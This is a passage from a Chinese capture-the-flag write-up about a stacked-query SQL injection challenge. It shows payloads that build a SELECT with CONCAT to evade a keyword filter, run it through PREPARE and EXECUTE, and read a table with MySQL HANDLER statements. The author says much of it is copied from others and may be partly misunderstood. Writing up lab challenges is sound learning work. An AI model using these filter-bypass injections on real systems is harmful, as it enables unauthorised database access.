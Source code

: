 1';

#利用concat拼接出目标语句，拼接绕过select

set @sql=CONCAT('se','lect * from `1919810931114514`;');

#利用prepare预定义一个语句，并将它赋给 sqla

PREPARE sqla from @sql;

#执行预定义的语句

EXECUTE sqla;#

下面是一段常见的存储过程可以参考语法，理解为什么存储过程要有set、prepare、execute 几步。

set @_sql = 'select ? + ?';

set @a = 5;

set @b = 6;

PREPARE stmt from @_sql; // 预定义sql

EXECUTE stmt USING @a,@b;// 传入两个会话变量来填充sql中的 ?

法三：

利用handler语句

该方法直接摘自大佬

mysql除可使用select查询表中的数据，也可使用handler语句，这条语句使我们能够一行一行的浏览一个表中的数据，不过handler语句并不具备select语句的所有功能。它是mysql专用的语句，并没有包含到SQL标准中。

HANDLER tbl_name OPEN [ [AS] alias]

# 打开一张表，无返回结果，实际上声明了一个名为tb1_name的句柄。

HANDLER tbl_name READ index_name { = | <= | >= | < | > } (value1,value2,...)

[ WHERE where_condition ] [LIMIT ... ]

HANDLER tbl_name READ index_name { FIRST | NEXT | PREV | LAST }

[ WHERE where_condition ] [LIMIT ... ]

HANDLER tbl_name READ { FIRST | NEXT }

[ WHERE where_condition ] [LIMIT ... ]

# 获取句柄的第一行，通过READ NEXT依次获取其它行。最后一行执行之后再执行NEXT会返回一个空的结果。

HANDLER tbl_name CLOSE

# 关闭打开的句柄。

payload：

1';

handler `1919810931114514` open;

handler `1919810931114514` read first;-- +

总结：在监工短短的督促下，这道题的总结终于东拼西凑写完了。我还很菜，文章中内容很多都是摘自大佬们，其中有些知识点我的理解也许不对，不确定的这部分我写的比较繁琐详细，希望能与大家交流。